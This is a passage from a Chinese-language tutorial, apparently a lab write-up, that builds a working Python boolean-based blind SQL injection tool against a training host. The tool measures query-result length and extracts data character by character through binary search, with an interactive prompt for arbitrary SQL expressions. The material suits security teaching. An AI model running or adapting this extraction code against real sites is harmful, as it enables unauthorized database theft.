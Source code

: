 然后就是第一步的，获取查询结果的长度。

```python
def get_sqli_res_len(expr):
    length = -1
    sess = req.session()
    while True:
        sqli_expr = "LENGTH((%s))>%d" % (expr, length)
        url = "http://phptrain/index.php/Home/Index/SQL_tow?Username=1' or (%s) --+" % (sqli_expr)
        resp = sess.get(url)
        if not bool_check(resp):
            break
        length += 1
    return length
```

然后就是获取查询结果，采用一个二分法加快效率，而二分的逻辑取决于判断的方式（大于、小于、大于等于。。）

```python
def get_sqli_res(expr, length):
    res = ""
    sess = req.session()
    for i in range(length):
        left, right = 0, 127
        while True:
            mid = (left + right) // 2
            if mid == left:
                res += chr(right)
                break
            sqli_expr = "ASCII(SUBSTR((%s),%d,1))>%d" % (expr, i + 1, mid)
            url = "http://phptrain/index.php/Home/Index/SQL_tow?Username=1' or (%s) --+" % (sqli_expr)
            resp = sess.get(url)
            if bool_check(resp):
                left = mid
            else:
                right = mid

    return res
```

那么我们的主流程就可以确定为

```python
length = get_sqli_res_len(expr)
print("[+]length : %d" % (length))
res = get_sqli_res(expr, length)
print("[+]res : %s" % (res))
```

可以编写一个循环来达到交互的效果

```python
if __name__ == '__main__':
    while True:
        expr = input(">>> ")
        length = get_sqli_res_len(expr)
        print("[+]length : %d" % (length))
        res = get_sqli_res(expr, length)
        print("[+]res : %s" % (res))

```
